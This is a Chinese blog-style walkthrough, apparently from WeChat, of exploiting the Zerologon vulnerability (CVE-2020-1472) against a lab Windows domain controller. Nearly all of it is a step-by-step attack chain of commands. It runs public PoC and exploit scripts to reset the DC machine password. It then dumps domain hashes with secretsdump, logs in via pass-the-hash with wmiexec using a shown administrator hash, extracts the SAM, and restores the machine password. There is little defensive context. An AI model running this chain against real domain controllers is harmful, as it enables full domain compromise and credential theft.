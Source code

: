 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/VocwBdC6XpgosxrxpIR7EA)

**![](https://mmbiz.qpic.cn/mmbiz/Wqr9SokRcTWcKgdMIz6KrDJxEeibLFHr3yNgsRElic1xaian4Yp469kv3ZpkfOZeXORYpicEwAVoMqG7Mt7XFO1Jfg/640?wx_fmt=gif)**

**攻击机：kali2020      受害者：windows2008  
https://github.com/SecuraBV/CVE-2020-1472    poc  
https://github.com/dirkjanm/CVE-2020-1472     exp  
1、本地搭建一个域环境  
**

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFoRU91IXeCHqiaQiadgTXtJeoaoF7XJQkc2JM7nfIzPfjWDCz0amAPicnBQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFoAjRJdZkRuKb0snXUIDEAUPCnFVAj0Xia0beTCvGyg0MaxjWLDyREuzA/640?wx_fmt=png)

  
2、使用 poc 验证  
既然提示安装东西，那就   pip install -r requirements.txt  , 之后再执行     python3 zerologon\_tester.py <主机名> <ip>  

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFo5CaIJ2ialKoeZBOqKNLL5jTgBmJ4OY0TjcDTNCv39r45KzdicicpqyYicQ/640?wx_fmt=png)

  
3、使用 exp 攻击，但是这个时候很多人的脚本回报错，是因为缺少 impacket，https://github.com/SecureAuthCorp/impacket  ，python3 setup.py install  // 安装 impacket，然后执行 exp  
python3 cve-2020-1472-exploit.py owa 192.168.137.137  

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFoejfz0kpD0UzfseJyftgl7qCibHJ6cwBdA9x4DNgjf7M4GvsksEOuG4w/640?wx_fmt=png)

  
4、使用 impacket 的 secretsdump.py 导出域控制上的 hash  
python3 secretsdump.py god.org/owa\\$@192.168.137.137 -no-pass  

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFojgKE3xNJx1O2CH5I19gA2hrh5dT5XnOrYy09ngSwB91B2UP2Z8O6gA/640?wx_fmt=png)

  
5、利用获取到的管理员 hash 来远程操作域控服务器  
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13cf6cfe1f2fc41cd286c7c8caec978b god.org/liukaifeng01@192.168.137.137  

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFoxg0pJWrZWR7y9snxdCvwKSLibGpaw30syKYy1bBOkUQJUsPZuo8OLSA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFoiamMoapOqYJiajMgcmXViaW8CzhEhrrtQoC7icXowjUibHoSgwScaiaRn2SA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFoXsiaT9bqvDn1VEcSJgVeCawSUkLtfGgQBIJtXv6h1zsn93qicWhT8CMQ/640?wx_fmt=png)

  
6、获取管理员 hash，远程连接导出 sam 数据库中的原来的计算机 hash  

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFoUL5KwROL1dt9rAXndsCHMw9GSmExo2MLdLl8BRCibIwvd15RiaDhJl5g/640?wx_fmt=png)

  
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL  

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFondoqiaKgoBK2Yv9gx0EE0wbQs7To31TGPKmlJBEALQibiclF845DylQGA/640?wx_fmt=png)

  
7、恢复计算机的 hash  
下载脚本 https://github.com/risksense/zerologon  
python3 reinstall\_original\_pw.py owa 192.168.137.137 ad611ebf4fd2de9448a33ba693b212f4     // 注意 hash 的部分，只有后半部分  

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFoJYl3rL1EZyH86ichic8MXIbPHRg9ibdUncsn9whO6sBzZYDTsxUxovNnw/640?wx_fmt=png)

  
8、恢复计算机的 hash  
使用 impacket 的脚本来登录域控来验证 hash  
使用 7 步骤的脚本回复 hash 前  

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFoPxuFepLrxVDI0z4pLJPmgWaYEysfBsDFhiaCf9wRnEJp8KmBOoVRbzQ/640?wx_fmt=png)

  
使用 7 步骤脚本恢复 hash 后  

![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTUiaczkyuM7ONa8V6mlzJQFo1DDcQ6BlCYJvJVJWTQekdelibiagconspI3xYFicCOUDyibxte62sYJNMQ/640?wx_fmt=png)

********![](https://mmbiz.qpic.cn/mmbiz_png/Wqr9SokRcTWXcxZtiaMibnvovwBicjfhIibT2t5ty0s12WMUR6mvPjH8ibwXsF2bEt64NVvThjYgNvfctEOYB3UdYgA/640?wx_fmt=jpeg)********